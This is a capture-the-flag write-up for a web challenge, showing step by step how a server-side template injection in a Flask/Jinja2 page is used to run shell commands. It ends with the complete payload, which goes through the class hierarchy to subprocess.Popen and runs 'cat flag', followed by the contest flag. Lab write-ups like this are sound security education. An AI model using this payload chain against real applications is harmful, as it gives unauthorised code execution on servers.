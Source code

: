 Title: SSTI

Description

```
I only talk to smart ppl (not you)

(also only smart ppl can execute the binary)

Link: http://alpha.8059blank.ml:4004
Mirror: http://beta.8059blank.ml:4004

Author: Lucas
```

Visiting the webpage, it shows a textbox, and a title of 'School of Scholars and Top Intelligents':

![image](https://user-images.githubusercontent.com/63996033/197450310-f780fff7-16c2-48ba-ba7b-c585bda6c747.png)

The main clue here is SSTI, not to be confused with the title of the webpage: SSTI (Server Side Template Injection). So we need to inject code into the textbox which we can run shell and commands to find the flag.
This webpage gives a good flow of what we can do: https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

In the textbox, we need to use a payload inside of {{}}. The one we will try is  ```{{‘’.__class__.__mro__}}```

![image](https://user-images.githubusercontent.com/63996033/197451069-92075e43-9f1a-4d64-b67d-7aa661192f56.png)
![image](https://user-images.githubusercontent.com/63996033/197451084-9b8605ff-08f6-4515-9deb-4ad93b51a3ba.png)

We are now able to access the class objects. We will add '[1].__subclasses__()' at the end of the payload to access the subclasses which allows us to get the shell commands.

![image](https://user-images.githubusercontent.com/63996033/197451331-0034c595-acfc-45a6-a30c-f83e7fd5bee4.png)
![image](https://user-images.githubusercontent.com/63996033/197451345-a136effb-a90a-46b4-b37a-c17ac9bf3199.png)

Nice! 
We now need to access  ```<class 'subprocess.Popen'>```, which is element 350 (by trial and error, or counting will work but is time consuming).

![image](https://user-images.githubusercontent.com/63996033/197451533-dcd7da50-9851-471a-8b7a-350ac019856c.png)
![image](https://user-images.githubusercontent.com/63996033/197451547-f3dc39f2-a6c1-455d-aa8b-91c6e54e4b4c.png)

Using info from this: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-subprocesspopen
We can add ('<SHELL COMMAND>',shell=True,stdout=-1).communicate()[0].strip() to the end of our payload to do shell commands. The first command we will do is 'ls' to list all files in the directory.

![image](https://user-images.githubusercontent.com/63996033/197452312-7354f166-6bae-47e0-847f-3a2cd98c7ef7.png)

This shows a file called 'flag' which is what we want. Next command is 'cat flag' to access the contents of that file and get the flag.

![image](https://user-images.githubusercontent.com/63996033/197452417-da4aee4d-729e-4765-b9eb-d7874f1691d7.png)

Doing so will give us this. A simple Ctrl+F gives us:

![image](https://user-images.githubusercontent.com/63996033/197452479-fe5f3c82-1b02-43b7-a45b-0bd33394ef62.png)

We got our flag using this:
```
{{ ''.__class__.__mro__[1].__subclasses__()[350]('cat flag',shell=True,stdout=-1).communicate()[0].strip()}}
```

Flag: ACSI{s0m3t1m3s_my_g3n1u5...it5...it5_alm05t_fr1ght3ning...}
